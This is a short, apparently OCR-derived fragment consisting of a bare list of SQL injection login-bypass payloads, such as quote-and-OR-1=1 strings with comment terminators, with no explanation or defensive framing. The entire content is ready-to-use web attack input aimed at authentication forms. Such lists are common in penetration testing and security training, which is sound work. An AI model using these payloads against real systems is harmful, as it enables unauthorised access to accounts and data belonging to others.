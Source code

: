 admin' or 1=1 or ''='
admin' or 1=1#
' OR 1=1;--
' OR 1=1--
'or'1'='1
'or 1=1--+
'or 1=1-+
admin' or '1'='1
'&'
'^'
'-'
'*'
' or true--
' or 'x'='x
